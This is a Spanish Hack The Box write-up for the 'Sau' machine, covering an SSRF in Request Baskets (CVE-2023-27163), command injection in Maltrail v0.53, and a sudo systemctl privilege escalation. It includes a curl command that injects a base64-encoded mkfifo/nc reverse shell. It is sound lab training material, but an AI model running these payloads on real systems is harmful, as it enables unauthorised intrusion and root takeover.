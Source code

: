 ```yaml
---
title: 'Sau'
date: 2024-01-06T12:16:15-03:00
permalink: /posts/htb/:title/
categories: ["Writeups", "HTB"]
tags: ['Linux', 'SSRF', 'RCE', 'Requests Baskets', 'CVE-2023-27163', 'Maltrail']
image:
  path: /assets/img/htb/sau/sau-0.png
---
```


## Introducción

En este post estaremos resolviendo la máquina [Sau](https://app.hackthebox.com/machines/Sau) de la plataforma Hack The Box. Esta máquina presenta una versión de **Request Baskets** vulnerable a SSRF (Server Side Request Forgery) identificada como **CVE-2023-27163**. Al explotar esta vulnerabilidad, logramos acceder a una instancia de **Maltrail** que es vulnerable a RCE (Remote Command Execution) la cual no requiere autenticación, permitiéndonos obtener una reverse shell en la máquina victima con el usuario **puma**. Posteriormente, aprovechamos una mala configuración de **sudo** para escalar nuestros privilegios y obtener un shell como el usuario root.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Reconocimento usando el comando ping](/assets/img/htb/sau/sau-1.png)

Vemos que responde al envio de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live), en este caso 64.

## Enumeración

### Descubrimiento de puertos abiertos

Realizamos un escaneo con `nmap` para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

![Escaneo de puertos con nmap](/assets/img/htb/sau/sau-2.png)

Parámetros utilizados:

- `-sS`: Realiza un TCP SYN Scan para escanear de manera sigilosa, es decir, que no completa las conexiones TCP con los puertos de la máquina víctima.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `--min-rate 5000`: Establece el número mínimo de paquetes que nmap enviará por segundo.
- `-Pn`: Desactiva el descubrimiento de host por medio de ping.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
- `-oG`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es un formato _grepeable_, el cual almacena todo en una sola línea. De esta forma, es más sencillo procesar y obtener los puertos abiertos por medio de expresiones regulares, en conjunto con otras utilidades como pueden ser grep, awk, sed, entre otras.

Como podemos observar, el resultado del escaneo nos presenta 4 puertos. Donde el puerto `22` y `55555` estan abiertos y por otra parte los puertos `80` y `8338` estan filtrados.

### Enumeración de versión y servicio

![Descubrimiento de versión y servicio con nmap](/assets/img/htb/sau/sau-3.png)

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos determinados anteriormente.

Parámetros utilizados:

- `-sCV` Es la combinación de los parámetros `-sC` y `-sV`. El primero determina que se utilizarán una serie de scripts básiscos de enumeración propios de nmap, para conocer el servicio que esta corriendo en dichos puertos. Por su parte, el segundo parámetro permite conocer más acerca de la versión de ese servicio.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`)
- `-oN`: Determina el formato del archivo en el cual se guardan los resultados obtenidos, junto con el nombre del archivo `targeted`. En este caso, utiliza el formato por defecto de nmap.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.

Solo por motivos de comodidad, agregamos al archivo `/etc/hosts` el dominio `sau.htb` para que al apuntar a este nos resuelva la ip de la máquina víctima.

```bash
❯ echo "10.10.11.224 sau.htb" | tee -a /etc/hosts
```
## Explotación de Request Baskets (SSRF)

Accedemos al sitio web que corre bajo el puerto 55555, podemos ver que la aplicación web es [Request Baskets](https://rbaskets.in/web) en su versión `1.2.1`.

![Requests Basktes](/assets/img/htb/sau/sau-4.png)

Si hacemos una búsqueda un Google, encontramos que esta versión es vulnerable a SSRF (Server Side Request Forgery) [CVE-2023-27163](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3), la cual afecta al componente de la api de Request Baskets `/api/baskets/{name}`.
Esto quiere decir, que esta vulnerabilidad permite a los atacantes acceder a recursos de red e información sensible mediante una solicitud API manipulada.

![New Baskte](/assets/img/htb/sau/sau-5.png)

Si creamos una nueva cesta, vemos que en principio esta vacia. Pero si realizamos solicitudes a la url `http://sau.htb:55555/kc75t4` como se nos indica, notamos que los detalles de la solicitudes son listados en el panel.

![Detalles de solicitud](/assets/img/htb/sau/sau-6.png)

Vemos también que podemos realizar algunas configuraciones, cambiando opciones como `Forward URL`.

Si tenemos en cuenta nuestro escaneo inicial de puertos, podemos recordar que el puerto `80` de la máquina victima estaba filtrado. Por lo tanto, podemos probar apuntar a ese puerto de la máquina, indicando como **Forward URL** el localhost (`http://127.0.0.1`). También debemos marcar la casilla `Proxy Response`, para que nos redirija las respuestas desde la URL de reenvío (en este caso el localhost).

![Configuración](/assets/img/htb/sau/sau-7.png)

Si ahora accedemos a la url `http://sau.htb:55555/kc75t4`, podemos notar que logramos acceder a un sitio web que en principio no teniamos acceso.
De esta manera, logramos aprovecharnos de la vulnerabilidad SSRF, para acceder a un sitio interno.

![Configuración](/assets/img/htb/sau/sau-8.png)

## Explotación de Maltrail - (RCE)

Podemos apreciar en el pie de página de la web, que lo que esta corriendo bajo el puerto 80 es la aplicación **Maltrail** en su versión **v0.53**.

Al investigar un poco sobre Maltrail en esta versión especifica, podemos notar que es vulnerable a RCE (Remote Code Execution) [Maltrail v0.53](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

![Mailtrail v0.53](/assets/img/htb/sau/sau-9.png)

## Reverse Shell - `puma`

Teniendo en cuenta que la aplicación es vulenrable a **RCE**, lancemos directamente una reverse shell para ganar acceso al sistema.

En primer lugar, creamos el payload a enviar.

![Reverse Shell](/assets/img/htb/sau/sau-10.png)

Luego, nos ponemos en escucha con `nc` por el puerto 4444.

Enviamos la reverse shell usando `curl`.

```bash
curl http://sau.htb:55555/kc75t4r/login --data 'username=;`echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE0LjYyIDQ0NDQgPi90bXAvZgo=" | base64 -d | sh`'
```

De esta forma, ganamos acceso al sistema como el usuario `puma`.

![Reverse Shell](/assets/img/htb/sau/sau-11.png)

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Leemos el flag del usuario.

![Flag del usuario](/assets/img/htb/sau/sau-12.png)

## Escalación de privilegios

Al realizar una enumeración del sistema, observamos que tenemos la capacidad de ejecución con privilegios **sudo** sin necesidad de proporcionar contraseña. Esto nos permite utilizar la herramienta `systemctl` y verificar el estado del servicio `trail.service`.

![Enumeración del sistema](/assets/img/htb/sau/sau-13.png)

Si realizamos una búsqueda en [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo), podemos ver que se puede abusar de este comando utilizando `!sh` para obtener un shell. 

![Escalada de privilegios](/assets/img/htb/sau/sau-14.png)

Esto sucede, debido a que `systemctl` utiliza `less` para mostrar el estado de un servicio.

![Escalada de privilegios](/assets/img/htb/sau/sau-15.png)

Por ultimo, leemos el flag del usuario `root`.

![Flag del usuario root](/assets/img/htb/sau/sau-16.png)

De esta forma, llegamos al final del Write-up de la máquina Sau.

Espero que los conceptos hayan quedado claros. Si has llegado hasta este punto y aún tienes dudas, te recomiendo volver a realizar la máquina.

Gracias por tu lectura!

Happy Hacking!
